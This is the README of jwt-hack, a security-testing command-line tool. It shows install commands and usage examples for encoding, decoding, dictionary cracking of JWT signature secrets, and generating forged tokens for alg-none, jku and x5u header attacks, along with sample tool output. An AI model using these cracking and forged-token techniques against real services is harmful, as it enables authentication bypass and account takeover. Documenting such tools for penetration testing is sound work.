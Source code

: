 <h1 align="center">
  <br>
  <a href=""><img src="https://user-images.githubusercontent.com/13212227/91675684-26561500-eb78-11ea-9f59-d904d743afae.png" alt="" width="260px;"></a>
  <br>
  Hack the JWT(JSON Web Token)
  <br>
  <img src="https://img.shields.io/github/v/release/hahwul/jwt-hack?style=flat"> 
  <a href="https://snapcraft.io/jwt-hack"><img alt="jwt-hack" src="https://snapcraft.io/jwt-hack/badge.svg" /></a>
  <img src="https://img.shields.io/github/languages/top/hahwul/jwt-hack?style=flat"> 
  <img src="https://app.codacy.com/project/badge/Grade/77bdf42ef06a430a9bfb46f15eb86626"> 
  <a href="https://goreportcard.com/report/github.com/hahwul/jwt-hack"><img src="https://goreportcard.com/badge/github.com/hahwul/jwt-hack"></a>
  <img src="https://github.com/hahwul/jwt-hack/workflows/Docker%20CI/badge.svg">
  <img src="https://github.com/hahwul/jwt-hack/workflows/CodeQL/badge.svg">
  <img src="https://github.com/hahwul/jwt-hack/workflows/Go/badge.svg">
  <a href="https://twitter.com/intent/follow?screen_name=hahwul"><img src="https://img.shields.io/twitter/follow/hahwul?style=flat&logo=twitter"></a>
  <a href="https://github.com/hahwul"><img src="https://img.shields.io/github/stars/hahwul?style=flat&logo=github"></a></a>
</h1>

## Installation
### go-get(dev version)
```
▶ go get -u github.com/hahwul/jwt-hack
```

### homebrew
```
▶ brew tap hahwul/jwt-hack
▶ brew install jwt-hack
```

### snapcraft
```
▶ sudo snap install jwt-hack
```

## Usage
```
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
Hack the JWT(JSON Web Token) | by @hahwul | v1.0.0

Usage:
  jwt-hack [command]

Available Commands:
  crack       Cracking JWT Token
  decode      Decode JWT to JSON
  encode      Encode json to JWT
  help        Help about any command
  payload     Generate JWT Attack payloads
  version     Show version

Flags:
  -h, --help   help for jwt-hack
```

![1414](https://user-images.githubusercontent.com/13212227/97078000-8a023900-1623-11eb-844f-ee92399be392.png)

## Encode mode(JSON to JWT)
```
▶ jwt-hack encode '{"json":"format"}' --secret={YOUR_SECRET}
```

e.g
```
$ jwt-hack encode '{"test":"1234"}' --secret=asdf
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Encoded result                                algorithm=HS256
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXN0IjoiMTIzNCJ9.JOL1SYkRZYUz9GVny-DgoDj60C0RLz929h1_fFcpqQA
```

## Decode mode(JWT to JSON)
```
▶ jwt-hack decode {JWT_CODE}
```

e.g 
```
▶ jwt-hack decode eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Decoded data(claims)                          header="{\"alg\":\"HS256\",\"typ\":\"JWT\"}" method="&{HS256 5}"
{"iat":1516239022,"name":"John Doe","sub":"1234567890"}
```

## Crack mode(Dictionary attack / BruteForce)
```
▶ jwt-hack crack -w {WORDLIST} {JWT_CODE}
```

e.g
```
▶ jwt-hack crack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.5mhBHqs5_DTLdINd9p5m7ZJ6XD0Xc55kIaCRY5r6HRA -w samples/wordlist.txt

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
[*] Start dict cracking mode
INFO[0000] Loaded words (remove duplicated)              size=16
INFO[0000] Invalid signature                             word=fas
INFO[0000] Invalid signature                             word=asd
INFO[0000] Invalid signature                             word=1234
INFO[0000] Invalid signature                             word=efq
INFO[0000] Invalid signature                             word=asdf
INFO[0000] Invalid signature                             word=2q
INFO[0000] Found! Token signature secret is test         Signature=Verified Word=test
INFO[0000] Invalid signature                             word=dfas
INFO[0000] Invalid signature                             word=ga
INFO[0000] Invalid signature                             word=f
INFO[0000] Invalid signature                             word=ds
INFO[0000] Invalid signature                             word=sad
INFO[0000] Invalid signature                             word=qsf
...
INFO[0000] Invalid signature                             word=password
INFO[0000] Invalid signature                             word=error
INFO[0000] Invalid signature                             word=calendar
[+] Found! JWT signature secret: test
[+] Finish crack mode
```

## Payload mode(Alg none attack, etc..)
```
▶ jwt-hack payload {JWT_CODE}
```

e.g
```
▶ jwt-hack payload eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.5mhBHqs5_DTLdINd9p5m7ZJ6XD0Xc55kIaCRY5r6HRA
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
payload called
INFO[0000] Generate none payload                         header="{\"alg\":\"none\",\"typ\":\"JWT\"}" payload=none
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate NonE payload                         header="{\"alg\":\"NonE\",\"typ\":\"JWT\"}" payload=NonE
eyJhbGciOiJOb25FIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate NONE payload                         header="{\"alg\":\"NONE\",\"typ\":\"JWT\"}" payload=NONE
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate jku payload                          header="{\"alg\":\"hs256\",\"jku\":\"https://www.google.com\",\"typ\":\"JWT\"}" payload=jku
eyJhbGciOiJoczI1NiIsImprdSI6Imh0dHBzOi8vd3d3Lmdvb2dsZS5jb20iLCJ0eXAiOiJKV1QifQ==.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate x5u payload                          header="{\"alg\":\"hs256\",\"x5u\":\"https://www.google.com\",\"typ\":\"JWT\"}" payload=x5u
eyJhbGciOiJoczI1NiIsIng1dSI6Imh0dHBzOi8vd3d3Lmdvb2dsZS5jb20iLCJ0eXAiOiJKV1QifQ==.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
```
